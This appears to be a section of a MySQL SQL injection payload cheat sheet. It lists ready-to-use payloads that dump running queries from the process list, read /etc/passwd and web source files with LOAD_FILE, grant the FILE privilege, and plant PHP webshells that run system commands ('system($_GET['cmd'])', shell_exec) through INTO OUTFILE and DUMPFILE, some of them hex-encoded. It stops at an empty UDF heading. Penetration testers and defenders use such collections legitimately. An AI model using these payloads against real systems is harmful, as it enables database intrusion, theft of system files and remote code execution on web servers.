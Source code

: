 
## MYSQL Current Queries

This table can list all operations that DB is performing at the moment.

```sql
union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

-- Dump in one shot example for the table content.
union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MYSQL Read Content of a File

Need the `filepriv`, otherwise you will get the error : `ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement`

```sql
' UNION ALL SELECT LOAD_FILE('/etc/passwd') --
```

```sql
UNION ALL SELECT TO_base64(LOAD_FILE('/var/www/html/index.php'));
```

If you are `root` on the database, you can re-enable the `LOAD_FILE` using the following query

```sql
GRANT FILE ON *.* TO 'root'@'localhost'; FLUSH PRIVILEGES;#
```

## MYSQL Command Execution

### WEBSHELL - OUTFILE Method

```sql
[...] UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
[...] UNION SELECT '' INTO OUTFILE '/var/www/html/x.php' FIELDS TERMINATED BY '<?php phpinfo();?>'
[...] UNION SELECT 1,2,3,4,5,0x3c3f70687020706870696e666f28293b203f3e into outfile 'C:\\wamp\\www\\pwnd.php'-- -
[...] union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### WEBSHELL - DUMPFILE Method

```sql
[...] UNION SELECT 0xPHP_PAYLOAD_IN_HEX, NULL, NULL INTO DUMPFILE 'C:/Program Files/EasyPHP-12.1/www/shell.php'
[...] UNION SELECT 0x3c3f7068702073797374656d28245f4745545b2763275d293b203f3e INTO DUMPFILE '/var/www/html/images/shell.php';
```

### COMMAND - UDF Library
